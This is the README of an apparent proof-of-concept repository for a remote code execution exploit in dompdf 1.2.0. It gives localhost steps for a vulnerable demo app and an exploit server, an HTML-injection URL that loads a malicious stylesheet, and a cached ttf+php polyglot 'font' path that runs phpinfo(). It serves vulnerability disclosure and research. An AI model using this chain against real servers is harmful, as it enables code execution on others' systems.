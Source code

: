 # RCE exploit for dompdf

This repository contains a vulnerable demo application using dompdf 1.2.0 and an exploit that achieves remote code execution via a ttf+php polyglot file.

![Exploit Overview](exploit/overview.png)

For more details, please visit https://positive.security/blog/dompdf-rce

## Instructions

1. Run the demo application
```
$ cd application
$ php -S localhost:9000
```

2. Run the exploit server
```
$ cd exploit
$ php -S localhost:9001
```

3. Trigger the exploit
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://localhost:9001/exploit.css'>
```

4. Access the cached php "font" file and execute `phpinfo()`
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```

**Please note:** In case you're using different domains, please edit `exploit/exploit.css` accordingly and check `application/dompdf/lib/fonts` for the full font filename.
